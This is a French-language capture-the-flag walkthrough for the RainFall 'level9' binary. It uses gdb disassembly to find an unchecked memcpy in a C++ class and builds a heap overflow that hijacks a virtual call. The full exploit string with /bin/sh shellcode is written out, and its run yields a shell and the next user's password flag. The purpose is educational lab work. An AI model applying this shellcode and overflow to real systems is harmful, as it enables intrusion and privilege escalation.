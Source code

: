 on a un exécutable qui ne fait rien lorsqu'on le lance, on le désassemble :

```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

on aperçoit plusieurs fonctions qui font parti de la class `N`, le désassemblage sera plus simple en cpp :

```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)                     // compare 1 and argc
   0x08048602 <+14>:    jg     0x8048610 <main+28>                // if argc < 1 go to +28
   0x08048604 <+16>:    movl   $0x1,(%esp)                        // argument for exit()
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>              // call exit()
   0x08048610 <+28>:    movl   $0x6c,(%esp)                       {
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>              } // call constructor of N
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)                    {
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>              } // call constructor of N
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)                         // argument for N::setAnnotation(char*)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc> // call N::setAnnotation(char*)
   0x0804867c <+136>:   mov    0x10(%esp),%eax                     //
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx                               // call operator+()
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave  
   0x08048699 <+165>:   ret
```

on a un main qui créé deux objet `N` et un appel la fonction *setAnnotation()*

```
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp              // 24 byte for local variable
   0x08048714 <+6>:     mov    0xc(%ebp),%eax          // %eax = (char*) passed in function
   0x08048717 <+9>:     mov    %eax,(%esp)             // argument for strlen()
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>  // call strlen()
   0x0804871f <+17>:    mov    0x8(%ebp),%edx          // edx = actual address object
   0x08048722 <+20>:    add    $0x4,%edx               // edx = attribut of actual object
   0x08048725 <+23>:    mov    %eax,0x8(%esp)          // return of strlen() passed in argument 3 for memcpy()
   0x08048729 <+27>:    mov    0xc(%ebp),%eax          // %eax = (char*) passed in function
   0x0804872c <+30>:    mov    %eax,0x4(%esp)          // argument 2 for memcpy()
   0x08048730 <+34>:    mov    %edx,(%esp)             // argument 1 for memcpy()
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt>  // call memcpy()
   0x08048738 <+42>:    leave  
   0x08048739 <+43>:    ret
```

*setAnnotation()* fait un appel à memcpy() que l'on peut utiliser pour overflow, avec https://wiremask.eu/tools/buffer-overflow-pattern-generator/? on trouve le décalage pour l'overflow :

```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) x $eax
0x41366441:     Cannot access memory at address 0x41366441
```

avec 0x41366441 on trouve un décalage de 108 octets et il faudra rajouter 4 octets pour l'adresse

dans ce level il n'y a pas de fonctions qui lance un shell, on doit lancer nous-même le shell avec cette string ; 
*"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"*

https://kali-linux.fr/hacking/overflow-comment-executer-votre-shellcode

il faut encore qu'on trouve l'adresse de notre buffer :

```
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run "aaaa"
Starting program: /home/user/level9/level9 "aaaa"

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x61616161
```

*0x804a00c* est la première adresse et l'adresse du shellcode serait donc *0x804a00c + 4 = 0x804a010*

on doit envoyer un argument à l'exécutable comme ceci : *[adresse du shellcode] + [shellcode] + [décalage] + [première adresse] = 112 octets*

on peut construire et lancer notre overflow :

```
"\x10\xa0\x04\x08" + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "a" * 49 + "\x0c\xa0\x04\x08"

4 + 55 + 49 + 4 = 108 + 4 = 112
```

```
level9@RainFall:~$ ./level9 $(echo -e "\x10\xa0\x04\x08\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x0c\xa0\04\x08")
$ pwd
/home/user/level9
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```